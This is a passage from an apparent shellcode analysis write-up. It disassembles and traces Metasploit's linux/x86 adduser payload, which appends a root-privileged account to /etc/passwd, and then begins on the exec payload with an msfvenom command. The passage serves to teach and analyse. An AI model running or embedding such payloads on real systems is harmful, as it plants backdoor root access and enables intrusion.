 ```
0000004E  8B51FC            mov edx,[ecx-0x4] //3nd argument, edx = 2B-4=27, edx = [27] = 22000000 = 34, number of bytes to write.
00000051  6A04              push byte +0x4
00000053  58                pop eax //eax=4, write call.
00000054  CD80              int 0x80 // write(file descriptor in ebx, "fisk:AzSzB2uy8JFlk:0:0::/:/bin/sh", 34)
00000056  6A01              push byte +0x1
00000058  58                pop eax //eax=1, exit call
00000059  CD80              int 0x80 // exit(return of write)
```

By some reason Libemu did not want emulate this assembly so a real strace will do instead.
I'll put the shellcode in a C file that runs it.

```
strace ./run
....crap data from before shellcode starts....
open("/etc//passwd", O_WRONLY|O_APPEND) = 3
write(3, "fisk:AzSzB2uy8JFlk:0:0::/:/bin/s"..., 34) = 34
_exit(3)                                = ?
+++ exited with 3 +++
```

The result is almost as expected, only thing that worth noting is that the exit parameter is 3.
This is because it is the leftover set to be the file descriptor at the write call.

```sh
gdb-peda$ disas 0x080497d6, 0x080497db
Dump of assembler code from 0x80497d6 to 0x80497db:
   0x080497d6 <code+86>:    push   0x1
   0x080497d8 <code+88>:    pop    eax
=> 0x080497d9 <code+89>:    int    0x80
End of assembler dump.
gdb-peda$ print /x $eip
$2 = 0x80497d9
gdb-peda$ print /x $eax
$3 = 0x1
gdb-peda$ print /x $ebx
$4 = 0x3
```

## linux/x86/exec <a name="exec"></a>
*Execute an arbitrary command*

Executing a command in linux is simple.
A call to [int execve(const char *filename, char *const argv[], char *const envp[]);](http://linux.die.net/man/2/execve) will suffice.

The analysis with my comments inserted:

```
root@kali:~/Desktop# msfvenom --platform=linux -a x86 -p linux/x86/exec CMD=ls | ndisasm -u -
No encoder or badchars specified, outputting raw payload

00000000  6A0B              push byte +0xb
00000002  58                pop eax //eax=0xb or 11d
00000003  99                cdq //sign extend to edx, edx=0

Verifying that edx=0 in gdb:
gdb-peda$ disas
Dump of assembler code for function code:
   0x08049780 <+0>: push   0xb
   0x08049782 <+2>: pop    eax
   0x08049783 <+3>: cdq    
=> 0x08049784 <+4>: push   edx

```